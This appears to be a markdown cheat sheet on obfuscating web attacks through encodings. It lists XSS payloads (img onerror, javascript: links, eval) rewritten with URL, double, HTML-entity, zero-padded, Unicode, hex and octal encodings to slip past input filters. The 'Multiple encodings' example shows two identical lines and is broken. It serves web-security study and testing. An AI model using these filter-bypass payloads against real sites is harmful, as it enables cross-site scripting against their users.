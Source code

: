 # Obfuscating attacks using encodings

Both clients and servers use a variety of different encodings to pass data between systems. When they want to actually use the data, this often means they have to decode it first. The exact sequence of decoding steps that are performed depends on the context in which the data appears. For example, a query parameter is typically URL decoded server-side, while the text content of an HTML element may be HTML decoded client-side.

When constructing an attack, you should think about where exactly your payload is being injected. If you can infer how your input is being decoded based on this context, you can potentially identify alternative ways to represent the same payload. 

### Encode as URL

```http2
/?search=Fish & Chips
```


```http2
/?search=Fish+%26+Chips
```

### Double encoding as URL

| Character | Percent encoded | Double encoded  |
| --------- |:---------------:| ---------------:|
|     <     |       %3C       |      %253C      |
|     >     |       %3E       |      %253E      |
|     /     |       %2F       |      %252F      |

### HTML encoding

```html
<img src=x onerror="alert(1)">
```

```html
<img src=x onerror="&#x61;lert(1)">
```

### Leading zeros

```html
<a href="javascript:alert(1)">Click me</a>
```

HTML Encoding: ":"

```html
<a href="javascript&#058;alert(1)">Click me</a>
```

Add zeros

```html
<a href="javascript&#00000000000058;alert(1)">Click me</a>
```

### Unicode escaping

```js
eval("alert(1)")
```

```js
eval("\u0061lert(1)")
```

https://dencode.com/string/unicode-escape

### ASCII Hex encoding

```js
eval("alert")
```

```js
eval("\x61lert")
```

Prefixed with \x

### ASCII Octal encoding

```js
eval("alert")
```

```js
eval("\141lert")
```

Prefixed with \

### Multiple encodings

```html
<a href="javascript:alert(1)">Click me</a>
```

```html
<a href="javascript:alert(1)">Click me</a>
```

https://onlinestringtools.com/convert-string-to-octal

#### References:

https://portswigger.net/web-security/reference/obfuscating-attacks-using-encodings

https://subscription.packtpub.com/book/networking-and-servers/9781785284588/1/ch01lvl1sec11/double-encoding
